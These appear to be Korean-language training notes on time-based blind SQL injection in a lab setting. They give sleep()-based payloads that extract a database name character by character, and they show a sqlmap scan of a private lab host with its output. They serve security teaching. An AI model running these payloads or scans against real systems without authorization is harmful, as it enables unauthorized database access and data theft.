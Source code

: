 ```
                else{
                        echo "<script>
                                alert('환영합니다.');  -> 여기를 둘 다 환영합니다로 수정했음
                                history.back();
                                </script>";
                }
?>

```

=> 이렇게 되면 로그인이 성공, 실패 모두 환영합니다 메세지가 뜬다.

이 경우 참인지 거짓인지 알아봐야하기 때문에 Time-Based Blind를 이용한다. 왜냐면 거짓이면 0초만에 답이오고 참이면 5초 후에 답이 오기 때문이다.



' or ascii(substr(database(),1,1)) = 87 and sleep(5) # -> 이렇게 하면 참이면 5초뒤에 뜨고 거짓이면 바로 메세지가 뜨겠죠@

' or ascii(substr(database(),1,1)) = 88 and sleep(5) # -> 이렇게 하면 거짓이라 메세지가 바로 뜸

그니까 코드 쓰고 뒤에 and sleep(3) 이런식으로 붙여주는게 Time-Based 방식



### Blind Injection - Tools (151p)

#### Sqlmap

###### 칼리

4  -> sqlmap

##### 취약점 (Injection Vector 확인)

root@kali-04:~# sqlmap - u "http://172.16.10.20/board/board_view.php?num=1" -p "num"

```
       ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.9#stable}
|_ -| . [,]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:39:20 /2020-10-22/

[14:39:21] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=p3gpa67qbg1...o78qod3rd1'). Do you want to use those [Y/n] y
[14:39:26] [INFO] checking if the target is protected by some kind of WAF/IPS
[14:39:26] [INFO] testing if the target URL content is stable
[14:39:27] [WARNING] target URL content is not stable (i.e. content differs). sqlmap will base the page comparison on a sequence matcher. If no dynamic nor injectable parameters are detected, or in case of junk results, refer to user's manual paragraph 'Page comparison'
how do you want to proceed? [(C)ontinue/(s)tring/(r)egex/(q)uit] c
[14:39:29] [WARNING] heuristic (basic) test shows that GET parameter 'num' might not be injectable
[14:39:29] [INFO] heuristic (XSS) test shows that GET parameter 'num' might be vulnerable to cross-site scripting (XSS) attacks
[14:39:29] [INFO] testing for SQL injection on GET parameter 'num'
[14:39:29] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:39:29] [WARNING] reflective value(s) found and filtering out
[14:39:30] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[14:39:30] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'                                                                                 
[14:39:30] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
```